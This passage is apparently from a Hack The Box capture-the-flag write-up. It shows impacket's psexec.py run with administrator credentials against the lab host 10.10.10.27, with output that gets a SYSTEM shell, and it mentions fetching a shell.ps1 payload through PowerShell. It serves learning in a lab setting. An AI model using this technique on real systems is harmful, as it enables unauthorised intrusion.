 The main difference was the `mssqlclient.py` shell seemed to format output in a much more eye-pleasing manner. There was also a slight variation in the Powershell syntax needed to fetch the `shell.ps1` file. Apart from that - not much difference.

## Alternative Admin Shell using `impacket`

Also tried the `psexec.py` script to get remote shell access as administrator. This script was super easy and seemed to provide a very stable experience. Apart from that, not much difference.

```
└─$ python3 psexec.py administrator@10.10.10.27
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file FDcpnrYy.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service zcer on 10.10.10.27.....
[*] Starting service zcer.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Lessons Learned

- There are sometimes multiple tools for the same jobs - but some are more stable/easier to use
- Learn more Powershell!

## Useful Resources

- Check the official/non-official walkthroughs on Hack The Box website
